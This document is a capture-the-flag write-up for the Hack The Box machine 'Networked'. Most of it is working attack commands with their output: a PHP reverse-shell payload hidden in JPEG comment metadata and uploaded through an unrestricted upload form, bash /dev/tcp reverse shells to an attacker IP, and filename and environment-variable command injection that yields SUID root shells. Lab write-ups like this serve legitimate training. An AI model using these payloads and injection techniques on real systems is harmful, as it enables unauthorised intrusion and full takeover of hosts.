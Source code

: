 # Target
| Category          | Details                                                    |
|-------------------|------------------------------------------------------------|
| 📝 **Name**       | [Networked](https://app.hackthebox.com/machines/Networked) |  
| 🏷 **Type**       | HTB Machine                                                |
| 🖥️ **OS**        | Linux                                                      |
| 🎯 **Difficulty** | Easy                                                       |

# Attack path
1. [Enumerate web application directories](#enumerate-web-application-directories)
2. [Gain foothold with RCE due to unrestricted file upload and insecure server-side parsing](#gain-foothold-using-rce-due-to-unrestricted-file-upload-and-insecure-server-side-parsing)
3. [Escalate to `guly` user using command injection in `check_attack.php`](#escalate-to-guly-user-using-command-injection-in-check_attackphp)
4. [Escalate to `root` user using command injection in `changename.sh`](#escalate-to-root-user-using-command-injection-in-changenamesh)

### Enumerate web application directories
```
┌──(magicrc㉿perun)-[~/attack/HTB Networked]
└─$ feroxbuster --url http://$TARGET -w /usr/share/wordlists/dirb/big.txt -x php -k -C 404 -q
```

`upload.php` and `photos.php` were found together with `backup.tar` containing PHP source code. 

### Gain foothold using RCE due to unrestricted file upload and insecure server-side parsing

#### Prepare reverse shell payload in JPEG comment metadata
```
┌──(magicrc㉿perun)-[~/attack/HTB Networked]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
LPORT=4444 && \
convert -size 1x1 xc:white shell.php.jpg
exiftool -comment="<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'\"); ?>" shell.php.jpg
```

#### Listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Networked]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
```

#### Upload and execute reverse shell code
```
┌──(magicrc㉿perun)-[~/attack/HTB Networked]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
curl http://$TARGET/upload.php -F "myFile=@shell.php.jpg" -F "submit=go" && \
curl http://$TARGET/uploads/${LHOST//./_}.php.jpg
<p>file uploaded, refresh gallery</p>
```

#### Confirm foothold
```
connect to [10.10.14.161] from (UNKNOWN) [10.129.130.209] 44362
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

### Escalate to `guly` user using command injection in `check_attack.php`
We can inject command in filename that is passed to `exec` in `$value`, `check_attack.php` is executed every 3 minutes by `guly`.
```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

#### Inject command to create empty `user_shell`
```
bash-4.2$ touch "/var/www/html/uploads/;touch user_shell;chmod 777 user_shell" && \
while [ ! -f /home/guly/user_shell ]; do sleep 1; done
```

#### Copy `/bin/bash` to `user_shell`
```
bash-4.2$ cp /bin/bash /home/guly/user_shell
cp /bin/bash /home/guly/user_shell
```

#### Inject command to set SUID on `user_shell`
```
bash-4.2$ touch "/var/www/html/uploads/;chmod 4777 user_shell" && \
while [ $((0x$(stat -c %f /home/guly/user_shell 2>/dev/null) & 0x800)) -eq 0 ]; do sleep 1; done
```

#### Execute `user_shell` to partially escalate to `guly`
```
bash-4.2$ /home/guly/user_shell -p
/home/guly/user_shell -p
id
uid=48(apache) gid=48(apache) euid=1000(guly) groups=48(apache)
```

#### Listen for 2nd reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Networked]
└─$ nc -lnvp 5555
listening on [any] 5555 ...
```

#### Overwrite `check_attack.php` with reverse shell
```
rm /home/guly/check_attack.php && \
echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.161/5555 0>&1'\"); ?>" > /home/guly/check_attack.php
```

#### Confirm full escalation to `guly` user
```
connect to [10.10.14.161] from (UNKNOWN) [10.129.130.209] 47734
bash: no job control in this shell
[guly@networked ~]$ id
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
```

### Escalate to `root` user using command injection in `changename.sh`

User `guly` can execute `/usr/local/sbin/changename.sh` as `root`.
```
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
Which is vulnerable to command injection in environment variable in part of `/etc/sysconfig/network-scripts/ifcfg-guly` network interface configuration.

#### Prepare exploit to create root shell
```
echo "cp /bin/bash /tmp/root_shell;chmod +s /tmp/root_shell" > /tmp/exploit && chmod +x /tmp/exploit
```

#### Inject path to exploit in `NAME` variable
```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
ps /tmp/exploit
interface PROXY_METHOD:
1
interface BROWSER_ONLY:
1
interface BOOTPROTO:
1
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```

#### Execute root shell
```
[guly@networked ~]$ /tmp/root_shell -p
/tmp/root_shell -p
id
uid=1000(guly) gid=1000(guly) euid=0(root) egid=0(root) groups=0(root),1000(guly)
```